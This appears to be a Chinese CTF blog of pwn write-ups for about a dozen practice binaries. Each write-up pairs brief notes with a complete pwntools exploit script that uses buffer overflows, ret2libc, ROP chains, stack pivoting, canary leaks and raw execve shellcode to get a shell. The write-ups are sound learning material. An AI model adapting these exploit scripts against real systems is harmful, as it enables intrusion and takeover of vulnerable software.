  

  `gdb`调试输入后得到了这样一个报错

  ```shell
  bamuwe@qianenzhao:~$ cyclic -l 0x61616167
  24
  ```

  `-l`查询,得到栈溢出距离(`$esp~$ebp`)是$24$(0x18)

```python
from pwn import *
io = process('./bbys_tu_2016')
padding = b'A'*0x18
payload = padding + p32(0x0804856D)
io.sendlineafter(b'This program is hungry. You should feed it.\n',payload)
io.interactive()
```

> 远程与本地有不同,直接`io.sendline(payload)`即可

# mrctf2020_easyoverflow





- 控制栈上参数
- 程序控制流

```shell
bamuwe@qianenzhao:~$ checksec mrctf2020_easyoverflow
[*] '/home/bamuwe/mrctf2020_easyoverflow'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

1. 保护全开,考虑利用程序自身的代码

2. 程序中存在后门,理解程序流

   关键在于`check`函数中,只要`a1(v5) == fake_flag`就可以得到`shell`

3. 通过ida可知`v5`在栈上的位置和`fake_flag`的内容

   

   

4. 构造`payload`通过填充`v4`的空间溢出到`v5`进而控制`v5`变量的内容

```python
from pwn import *
io = process('./mrctf2020_easyoverflow')
#io = gdb.debug('./mrctf2020_easyoverflow')
payload = b'A'*48+b'n0t_r3@11y_f1@g\x00'
io.sendline(payload)
io.interactive()
```

#两道水群小题

## ret2libc1

- `32`位`libc`泄露
- `cyclic`确定溢出位置的使用


> 变量`s`存在泄露,但是这里`ida`显示的栈空间并不准确


> 程序中存在`system`函数,可以直接利用

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```



```shell
bamuwe@qianenzhao:~/done/杂七杂八$ cyclic -l 0x62616164
112
```

得到溢出位置,`padding=112`

后续就是常规的利用,但是这里要注意第二次发送`payload`的时候栈填充长度是$104$,通过`gdb`调试可以直观的看到,不多赘述,奉上`exp`一则

```python
from pwn import *
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
#context.log_level = 'debug'
io = process('./ret2libc1')
#io = gdb.debug('./ret2libc1')
elf = ELF('./ret2libc1')
payload = b'A'*(112)+p32(elf.plt['puts'])+p32(elf.sym['main'])+p32(elf.got['puts'])
io.sendlineafter(b'RET2LIBC >_<\n',payload)
puts_addr = u32(io.recv(4))
print('puts_addr->{}'.format(hex(puts_addr)))

liboffset = puts_addr - Lib.sym['puts']
sys_addr = liboffset + Lib.sym['system']
bin_sh_addr = liboffset + next(Lib.search(b'/bin/sh'))

payload = b'A'*(100+4)+p32(sys_addr)+p32(0)+p32(bin_sh_addr)
io.sendlineafter(b'RET2LIBC >_<\n',payload)
io.interactive()
```

## rop

- one_gadgets


第一眼函数很多,什么都没有,但拨云见雾,不过如此

1. 通过`ROPgadgets`得到`ropchain`
2. 构造`payload`得到`shell`

```shell
bamuwe@qianenzhao:~/done/杂七杂八$ ROPgadget --binary rop --ropchain
```

```python
from pwn import *
from struct import pack
io = process('./rop')
padding = b'A'*112
# Padding goes here
p = b''

p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080bb196) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080bb196) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0809a4ad) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x0806eb91) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8

p += pack('<I', 0x080ea060) # padding without overwrite ebx

p += pack('<I', 0x0806eb6a) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x08054590) # xor eax, eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x0807b5bf) # inc eax ; ret
p += pack('<I', 0x08049421) # int 0x80

payload = padding+p
io.sendlineafter(b'What do you plan to do?\n',payload)
io.interactive()
```

# xdctf2015_pwn200

- `32`位泄露`了ibc`

 


1. `main`函数中输入
2. `vuln`函数中存在溢出漏洞

非常常规的泄露`libc`,直接上代码

```python
from pwn import *
elf = ELF('./bof')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
io = process('./bof')
padding = b'A'*112
payload1 = padding+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(0x1)+p32(elf.got['write'])+p32(0x4)
io.sendlineafter(b'Welcome to XDCTF2015~!\n',payload1)

write_addr = u32(io.recv(4))
print('puts_addr->',hex(write_addr))

Liboffset = write_addr - Lib.sym['write']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))

payload2 = padding + p32(sys_addr)+p32(0x0)+p32(bin_sh_addr)
io.sendlineafter(b'Welcome to XDCTF2015~!\n',payload2)
io.interactive()
```

# ciscn_2019_s_4

- 栈迁移



1. 存在漏洞函数,`s`变量存在溢出,但是长度不够,考虑栈迁移
2. 通过溢出打印(动态调试也可以)`ebp`栈上地址,计算得出`s`的地址,栈迁移到`s`的位置上
3. 向`s`中写入`payload`得到`shell`



计算得到偏移量为`0x38`

```python
from pwn import *
context.log_level = 'debug'
elf = ELF('./ciscn_s_4')
io = process('./ciscn_s_4')
#io = gdb.debug('./ciscn_s_4')
padding = b'A'*0x27+b'B'
payload1 = padding
leave_ret = 0x08048562
io.sendafter(b'Welcome, my friend. What\'s your name?\n',payload1)
io.recvuntil(b'B')
s_addr = u32(io.recv(4))-0x38
print('s_addr->',hex(s_addr))

payload2 = p32(0)+p32(elf.plt['system'])+p32(0)+p32(s_addr+0x10)+b'/bin/sh\x00'
payload2 = payload2.ljust(0x28,b'\x00')
payload2 += p32(s_addr)+p32(leave_ret)
io.send(payload2)

io.interactive()
```

详细关于栈迁移在之前随笔中有详解,不再赘述

有几个注意点:

1. `padding`中`B`起到标识位作用,方便后续交互
2. `payload2`开头`p32(0)`是为了填充`leave`指令
3. `b'/bin/sh'`的地址计算与`b\x00'`截断

# jarvisoj_level1



- `ret2shellcode`

1. 存在漏洞函数`vulnerable_function`
2. `printf`函数泄露了`buf`栈上地址
3. `read`函数中,`buf`变量中存在溢出
4. 往`buf`写入`shellcode`再跳转到`buf`栈上

```python
from pwn import *
io = process('./level1')

io.recvuntil(b'What\'s this:')
buf_addr = eval(io.recv(10))
shellcode = asm(shellcraft.sh())
payload = shellcode
payload = payload.ljust(0x88,b'\x00')+p32(0)+p32(buf_addr)
io.sendline(payload)
io.interactive()
```

Tips_更换libc和ld:

```shell
bamuwe@qianenzhao:~$ sudo patchelf --set-interpreter /home/bamuwe/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-2.23.so ezheap
bamuwe@qianenzhao:~$ sudo patchelf --replace-needed libc.so.6 /home/bamuwe/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so ezheap
```


# pwnable_start


```shell
bamuwe@qianenzhao:~$ checksec start
[*] '/home/bamuwe/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

保护全关,但不能看伪代码,只能看汇编

思路:

1. 通过溢出泄露`buf(输入数据)`地址
2. 跳转到`buf`地址,写入`shellcode`
3. 跳转到`buf`地址,执行`shellcode`拿到`shell`

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
context.os = 'linux'
io = gdb.debug('./start')
padding = b'A'*0x14
buf_addr = 0x8048087
shellcode=b"\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80"

def leak():
    global buf_addr
    payload = padding+p32(buf_addr)

    io.sendafter( b"Let's start the CTF:",payload)
    buf_addr = u32(io.recv(4))
    print('buf_addr->',hex(buf_addr))
    return 0

def pwn():
    global shellcode
    payload = padding+p32(buf_addr+0x14)+shellcode
    io.send(payload)
    return 0

leak()
pwn()
io.interactive()
```

>需要注意的是,这里`buf`空间长度不足,所以需要另外找一个`shellcode`而不能使用直接生成的`shellcode`,直接生成的`shellcode`长度会在$21~60$之间

# pwnable_orw

- `shellcraft`方法的使用


> 逻辑很简单,`shellcode`存在于`.bss`段上,写入`shellcode`,执行`shellcode`



> `orw_seccomp`对系统调用的函数做了限制,只能使用`sys_open,sys_read,sys_write`所以我们利用这三个函数直接读取flag

一种方法是手写汇编,然后通过`asm()`函数转换,难度比较大,另外一种就是我利用的这种,使用`pwntools`的`shellcraft`方法来生成`shellcode`

```python
from pwn import *
context.arch = 'i386'
context.log_level = 'debug'
#io = process('./orw')
io = remote('chall.pwnable.tw',10001)
#io = gdb.debug('./orw')
#shellcode = asm(shellcraft.sh())
shellcode = shellcraft.open('/home/orw/flag')+shellcraft.read('eax','esp',100)+shellcraft.write(1,'esp',100)
shellcode = asm(shellcode)
io.sendlineafter(b'Give my your shellcode:',shellcode)
io.interactive()
```

题目环境和本地环境可能版本有所不同,`shellcode`不一定能在本地运行

# gyctf_2020_borrowstack

- 栈迁移
- one-gadgets
- 64泄露libc


1. 在`read`函数中存在变量`buf`的溢出,但是长度受到了限制,只能溢出两个栈空间
2. 在后面可以往`&bank`写入内容,而`&bank`正好位于`.bss`段上,可以写入且内存中位置不会改变
3. 没有后门函数,考虑泄露`libc`,因为溢出空间有限,所以采用`one-gadget`这样只要溢出两个空间就可以拿到`shell`

```python
from pwn import *
from LibcSearcher import LibcSearcher
# context.log_level = 'debug'

#io = gdb.debug('./gyctf_2020_borrowstack','b main')
elf = ELF('./gyctf_2020_borrowstack')
ret_addr = 0x00000000004004c9
leave_ret_addr = 0x0000000000400699
pop_rdi_ret = 0x0000000000400703
padding = 0x60
bank_addr = 0x601080
io = remote('node5.buuoj.cn',28420)

def leak_puts_libc():
    payload1 = flat([b'A'*padding,p64(bank_addr),p64(leave_ret_addr)])
    io.sendafter(b'want\n',payload1)
    payload2 = p64(ret_addr)*20+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main']) #填充的p64(ret_addr)*20是因为该bss段距离got表太近会导致程序错误退出/ps:真的doge
    io.sendafter(b'Done!You can check and use your borrow stack now!\n',payload2)

    puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
    print('puts_addr->',hex(puts_addr))
    return puts_addr

def remote_pwn1(puts_addr):
    Lib = LibcSearcher('puts',puts_addr)
    libc_base = puts_addr - Lib.dump('puts')
    one_gadget=libc_base+0x4526a
    payload1 = b'A'*(padding+8)+p64(one_gadget)
    io.sendafter(b'want\n',payload1)
    io.interactive()

puts_addr = leak_puts_libc()
print('=====================')
remote_pwn1(puts_addr=puts_addr)
```

这题打的很曲折,一开始想到了栈迁移,不过一开始想的是泄露出`s`的栈地址,踩了大坑,后续又一个大坑是`bank`在栈上的位置距离`got`表太近(以前从来没注意过),直接填充会导致`got`表被破坏,程序意外退出,同时泄露的地址错误,所以需要做一个`ret滑梯`抬栈(也是才知道这个操作,长度至少是20,太多了也不行,就离谱,没动调过也不是很懂,抄答案のscript_kids)

打了好长时间,不过学到了新东西,自己搞肯定搞不出来

不过该说不说,还是蛮有意思的,我原本以为这个要做两次栈迁移哈哈

# others_babystack

- Canary 保护
- 程序控制流
- 64位libc泄露

```shell
bamuwe@bamuwe:~/done/others_babystack$ checksec babystack
[*] '/home/bamuwe/done/others_babystack/babystack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序开启了Canary保护



1. 程序存在`Canary`保护，所以要先泄露出`Canary`
2. `read`中存在溢出
3. 通过`read`配合`puts`得到`Canary`的值
4. 构造`payload`利用`exit`函数劫持程序流，泄露`libc`
5. 构造`payload`得到`shell`

```python
from pwn import *
from LibcSearcher import LibcSearcher
# context.log_level = 'debug'
# io = gdb.debug('./babystack')
io = remote('node5.buuoj.cn',29522)
elf = ELF('./babystack')
padding = cyclic(136)
pop_rdi_ret = 0x0000000000400a93
main_addr = 0x400908

def cmd(idx):
    io.sendlineafter(b'>>',str(idx))
def leak_canry():
    cmd(1)
    io.sendline(padding)
    cmd(2)
    io.recvuntil('\n')
    canary = u64(io.recv(7).rjust(8, b'\x00'))
    print(hex(canary))
    return canary
def leak_puts(canary):
    cmd(1)
    payload = padding+p64(canary)+p64(0x0)+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(main_addr)
    io.sendline(payload)
    cmd(3)
    puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    print('puts_addr->',hex(puts_addr))
    return puts_addr
def pwn(puts_addr):
    libc = LibcSearcher('puts',puts_addr)
    lib_offset = puts_addr - libc.dump('puts')
    sys_addr = lib_offset+libc.dump('system')
    bin_sh_addr = lib_offset+libc.dump('str_bin_sh')
    payload = padding+p64(canary)+p64(0x0)+p64(pop_rdi_ret)+p64(bin_sh_addr)+p64(sys_addr)
    cmd(1)
    io.sendline(payload)
    cmd(3)
    io.sendline('cat flag')
    io.interactive()

canary = leak_canry()
puts_addr = leak_puts(canary)
pwn(puts_addr)

```

这里面看佬的wp新学一招，使用`cyclic(lengths)`可以直接得到所需长度的循环字符串

